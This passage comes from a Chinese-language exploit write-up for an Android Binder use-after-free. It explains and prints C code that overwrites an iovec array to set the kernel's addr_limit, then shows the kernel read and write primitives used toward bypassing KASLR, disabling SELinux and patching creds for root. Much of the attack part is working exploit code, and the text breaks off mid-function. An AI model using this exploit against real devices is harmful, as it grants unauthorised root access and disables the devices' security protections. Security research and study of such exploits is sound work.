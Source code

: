 ```c
        ERR("\t[-] recvmsg failed. nBytesReceived: 0x%lx, expected: 0x%lx\n", nBytesReceived, expectedBytesReceived);
        exit(EXIT_FAILURE);
    }
    // Wait for the child process to exit
    wait(nullptr);
}
```

这里就要将addr_limit的值改为`0xFFFFFFFFFFFFFFFE`在arm64里有个检查函数`do_page_fault`会检测该值是否为`0xFFFFFFFFFFFFFFFF`，如果是就触发奔溃，所以一般都设为`0xFFFFFFFFFFFFFFFE`。

前面是从内核读出数据，这里要实现的是向内核写入数据。

看看这里的iovecStack结构：

```c
iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *) 0x42424242;
iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
```

和前面泄露信息的布局是差不多。

首先依然是初始化环境，先向socket写入了1byte的垃圾数据，之后父进程使用`recvmsg`系统调用接收了1byte的数据之后进行阻塞，这里选用了recvmsg而不是前面writev是因为iovecStack[10].iov_len变成了一个指针，很大的数字，后续调用copy_page_to_iter_iovec复制数据时会出错。

子进程进行unlink操作，将精心构造的finalSocketData写入socket，父进程恢复接收数据，这时iovecStack[11]已经被破坏掉了，等到recvmsg系统调用返回时，就可以修改掉addr_limit的值。

```c
static uint64_t finalSocketData[] = {
            0x1,                    // iovecStack[IOVEC_WQ_INDEX].iov_len
            0x41414141,             // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,  // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
            (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT), // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
            0xFFFFFFFFFFFFFFFE      // addr_limit value
    };
```

对应上面的值。

到这里我们就有了完整的内核读写权限，接下绕过kaslr、禁用SElinux、patchCred就可以获得root权限。

### bypass kaslr and Disabling SELinux

前面已经了有了完整的读写权限，那这就很简单了。

任意读写的实现：

```c
void BinderUaF::kRead(void *Address, size_t Length, void *uBuffer) {
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1], Address, Length);
    if ((size_t) nBytesWritten != Length) {
        ERR("[-] Failed to write data from kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
    ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], uBuffer, Length);
    if ((size_t) nBytesRead != Length) {
        ERR("[-] Failed to read data from kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
}

void BinderUaF::kWrite(void *Address, size_t Length, void *uBuffer) {
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1], uBuffer, Length);
```